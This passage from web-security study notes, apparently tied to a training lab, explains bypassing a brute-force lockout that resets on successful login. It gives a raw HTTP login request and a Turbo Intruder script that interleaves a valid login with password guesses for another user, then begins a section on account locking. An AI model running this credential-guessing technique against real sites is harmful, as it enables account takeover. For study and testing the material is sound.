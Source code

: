 This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

Try to script or use turbo intruder to make a successfull login after X attempts or every each attempt.

Follow we can see an example of turbo intruder:

```
POST /login HTTP/2
Host: example.com
Cookie: session=zMmBRN1BwGCOkoyja2JAiB4cVZnUanY1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: https://example.com
Referer: https://example.com/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

%s
```

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/tmp/pass.txt'):
        engine.queue(target.req, "username=wiener&password=peter")
        engine.queue(target.req, "username=carlos&password=%s" % word.rstrip())


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)

```

### Account locking

One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames. 
